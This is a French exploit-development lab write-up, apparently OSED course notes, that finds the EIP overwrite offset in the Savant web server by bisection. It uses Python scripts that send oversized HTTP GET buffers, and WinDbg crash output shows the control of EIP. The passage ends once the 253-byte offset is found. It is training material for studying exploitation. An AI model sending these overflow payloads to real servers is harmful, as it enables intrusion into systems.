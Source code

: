 ```powershell
┌──(kali㉿kali)-[/media/…/os/exp-301-osed/cours/cours6]
└─$ msf-pattern_offset -l 260 -q 0040c05f 
[*] No exact matches, looking for likely candidates...
```

On opte donc pour l'identification manuelle de l'offset à travers de la dichotomie.

```py
#!/usr/bin/python
import socket
import sys
from struct import pack

try:
  server = sys.argv[1]
  port = 80
  size = 260

  httpMethod = b"GET /"
  inputBuffer = b"\x41" * 130
  inputBuffer += b"\x42" * 130
  httpEndRequest = b"\r\n\r\n"

  buf = httpMethod + inputBuffer +  httpEndRequest
```

Le registre `EIP` est à `42424242`. Indiquant que le dépassement de tampon est donc dans la deuxième moitié.

On continus dans la dichotomie :

- On augmente de la moitié de 130 le nombre de `A`
- On diminue de moitié le nombre de `B`

```py
  httpMethod = b"GET /"
  inputBuffer = b"\x41" * 195
  inputBuffer += b"\x42" * 65
```

Le dépassement se situe toujours dans la deuxième partie :

```powershell
(e04.12d8): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
*** WARNING: Unable to verify checksum for C:\Savant\Savant.exe
eax=ffffffff ebx=018c5778 ecx=0bc8af86 edx=00000000 esi=018c5778 edi=0041703c
eip=42424242 esp=045cea2c ebp=42424242 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010206
42424242 ??              ???
```

On continue de cette manière jusqu'à arriver à la configuration suivante :

```py
  httpMethod = b"GET /"
  inputBuffer = b"\x41" * 253
  inputBuffer += b"\x42\x42\x42\x42"
```
